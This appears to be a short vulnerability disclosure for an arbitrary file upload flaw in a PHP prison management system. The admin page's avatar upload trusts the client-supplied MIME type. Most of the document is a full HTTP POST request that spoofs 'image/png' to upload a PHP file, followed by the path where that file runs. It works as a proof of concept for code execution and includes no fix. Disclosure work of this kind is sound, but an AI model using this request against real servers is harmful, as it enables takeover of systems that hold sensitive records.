

# Prison Management System Using PHP - Arbitrary file upload

In Admin/add-admin.php, validation is performed based on $file_type = $\_ FILES\['avatar']\['type'].


So, setting the request header Content-Type: image/png, filename="1.php" allows for uploading.

```http
POST /Admin/add-admin.php HTTP/1.1
Host: 192.168.3.182
Content-Length: 683
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.3.182
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary7lYpEc4qMBoPyFDG
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.6261.112 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.3.182/Admin/add-admin.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: XDEBUG_SESSION=18398; PHPSESSID=4deq4thcl25d1l3ld87s2tf19m
Connection: close

------WebKitFormBoundary7lYpEc4qMBoPyFDG
Content-Disposition: form-data; name="txtusername"


------WebKitFormBoundary7lYpEc4qMBoPyFDG
Content-Disposition: form-data; name="txtfullname"


------WebKitFormBoundary7lYpEc4qMBoPyFDG
Content-Disposition: form-data; name="txtpassword"


------WebKitFormBoundary7lYpEc4qMBoPyFDG
Content-Disposition: form-data; name="txtphone"


------WebKitFormBoundary7lYpEc4qMBoPyFDG
Content-Disposition: form-data; name="avatar"; filename="1.php"
Content-Type: image/png

<?php phpinfo() ?>
------WebKitFormBoundary7lYpEc4qMBoPyFDG
Content-Disposition: form-data; name="btncreate"


------WebKitFormBoundary7lYpEc4qMBoPyFDG--
```


Accessing <http://192.168.3.182/uploadImage/Profile/1.php>


